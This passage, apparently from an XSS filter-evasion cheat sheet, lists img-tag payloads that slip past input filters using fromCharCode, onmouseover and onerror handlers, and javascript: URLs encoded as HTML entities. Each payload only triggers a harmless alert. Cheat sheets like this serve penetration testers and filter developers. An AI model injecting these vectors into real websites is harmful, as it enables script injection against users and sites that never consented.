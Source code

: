 ## fromCharCode

If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

```html
<img src="javascript:alert(String.fromCharCode(88,83,83))" />
```

## Default SRC Tag to Get Past Filters that Check SRC Domain

This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

```html
<img src="#" onmouseover="alert('xxs')" />
```

## Default SRC Tag by Leaving it Empty

```html
<img src="onmouseover" ="alert('xxs')" />
```

## Default SRC Tag by Leaving it out Entirely

```html
<img onmouseover="alert('xxs')" />
```

## On Error Alert

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

## IMG onerror and JavaScript Alert Encode

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

## Decimal HTML Character References

All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

```html
<img
  src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;"
/>
```
